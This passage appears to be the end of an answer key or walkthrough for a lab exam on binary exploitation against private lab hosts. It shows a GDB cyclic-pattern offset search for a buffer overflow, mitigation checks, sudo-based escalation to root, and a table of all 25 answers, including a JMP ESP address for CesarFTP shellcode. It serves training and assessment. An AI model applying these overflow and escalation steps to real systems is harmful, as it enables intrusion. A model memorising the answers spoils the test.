  1. Input buffers reside at a lower memory address than target local variables.
  2. Send a cyclic pattern to determine the exact offset where adjacent memory is overwritten:
     ```gdb
     gdb-peda$ pattern create 120
     gdb-peda$ continue
     # AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA
     # *** stack smashing detected ***: <unknown> terminated
     gdb-peda$ pattern offset 0x4141334141644141
     # 4702095841314488641 found at offset: 64
     ```
  3. The local buffer allocates exactly 64 bytes. Supplying 64 characters fills the buffer completely, and the 65th character modifies the least significant byte of the target variable. Minimum characters: 65.
* **Correct Answer:** `65`

---

#### Challenge 23: one.exe NX Mitigation Status
* **Question (Exam Text):** What is the status of the NX setting (enabled or disabled) for program one.exe on the machine at 172.25.120.240?
* **Points:** 50 Points
* **Answer Format:** `enabled or disabled`
* **Target:** `172.25.120.240`
* **Methodology:**
  Query the mitigation flags in GDB-PEDA or readelf:
  ```gdb
  gdb-peda$ checksec
  CANARY : ENABLED
  FORTIFY: disabled
  NX     : ENABLED
  PIE    : ENABLED
  RELRO  : FULL
  ```
  Non-executable stack protection is active (`Enabled`).
* **Correct Answer:** `Enabled`

---

#### Challenge 24: userflag.txt Contents
* **Question (Exam Text):** What is the content inside the file named userflag.txt on the machine located at 172.25.120.240? (Answer Format: XXXXXXXX--XXXXXXXX)
* **Points:** 50 Points
* **Answer Format:** `XXXXXXXX--XXXXXXXX`
* **Target:** `172.25.120.240` (`/home/student/userflag.txt`)
* **Methodology:**
  Read the user flag in student's home directory:
  ```bash
  cat /home/student/userflag.txt
  # INTRANET
  # --BINARIES
  ```
  Combined format: `INTRANET--BINARIES`.
* **Correct Answer:** `INTRANET--BINARIES`

---

#### Challenge 25: rootflag.txt Contents
* **Question (Exam Text):** What is the content inside of the file named rootflag.txt on the machine located at 172.25.120.240? (Answer Format: XXXXXXXX-XXXX)
* **Points:** 50 Points
* **Answer Format:** `XXXXXXXX-XXXX`
* **Target:** `172.25.120.240` (`/root/rootflag.txt`)
* **Methodology:**
  Examine sudo permissions: `student` possesses unrestricted sudo privileges (`(ALL : ALL) ALL`). Escalate to root and read `rootflag.txt`:
  ```bash
  sudo -l
  sudo su
  cat /root/rootflag.txt
  # INTRANET-ROOT
  ```
* **Correct Answer:** `INTRANET-ROOT`

---

## 3. Conclusion and Summary Table

| Challenge | Target Service / File | Category | Topic | Correct Answer |
| :---: | :--- | :--- | :--- | :--- |
| **01** | `172.25.120.105:21` | Exploit Fuzzing | CesarFTP crash character | `n` |
| **02** | `172.25.120.105:21` | Buffer Overflow | Minimum characters to crash | `671` |
| **03** | `172.25.120.105:21` | Windows Security | CesarFTP ASLR status | `False` |
| **04** | `172.25.120.105:21` | Shellcode Redirection | JMP ESP address in USER32.DLL | `77e14c29` |
| **05** | `172.25.120.125` | ELF Analysis | two.exe bit architecture | `32` |
| **06** | `172.25.120.125` | ELF Analysis | three.exe bit architecture | `64` |
| **07** | `172.25.120.125` | Binary Symbols | two.exe stripped status | `False` |
| **08** | `172.25.120.125` | Ghidra RE | /bin/date string address | `8681` |
| **09** | `172.25.120.125` | Ghidra RE | main() function address | `84fb` |
| **10** | `172.25.120.125` | Checksec | two.exe NX status | `Enabled` |
| **11** | `172.25.120.125` | Checksec | two.exe PIE status | `Disabled` |
| **12** | `172.25.120.125` | Checksec | four.exe NX status | `Disabled` |
| **13** | `172.25.120.125` | ELF Analysis | four.exe bit architecture | `32` |
| **14** | `172.25.120.125` | ELF Analysis | five.exe bit architecture | `64` |
| **15** | `172.25.120.240:60000` | Reconnaissance | SSH service version | `7.6p1` |
| **16** | `172.25.120.240` | Binary Symbols | rp-lin-x86 stripped status | `Stripped` |
| **17** | `172.25.120.240` | Exploit Primitive | rp-lin-x86 exploit type detected | `ROP` |
| **18** | `172.25.120.240` | ELF Header | rp-lin-x86 target machine arch | `Intel` |
| **19** | `172.25.120.240` | ELF Header | rp-lin-x86 program headers offset | `52` |
| **20** | `172.25.120.240` | Binary Symbols | one.exe stripped status | `False` |
| **21** | `172.25.120.240` | ELF Analysis | one.exe bit architecture | `64` |
| **22** | `172.25.120.240` | Buffer Overflow | Min chars to modify variable | `65` |
| **23** | `172.25.120.240` | Checksec | one.exe NX status | `Enabled` |
| **24** | `172.25.120.240` | Flag Extraction | userflag.txt contents | `INTRANET--BINARIES` |
| **25** | `172.25.120.240` | PrivEsc & Flag | rootflag.txt contents | `INTRANET-ROOT` |
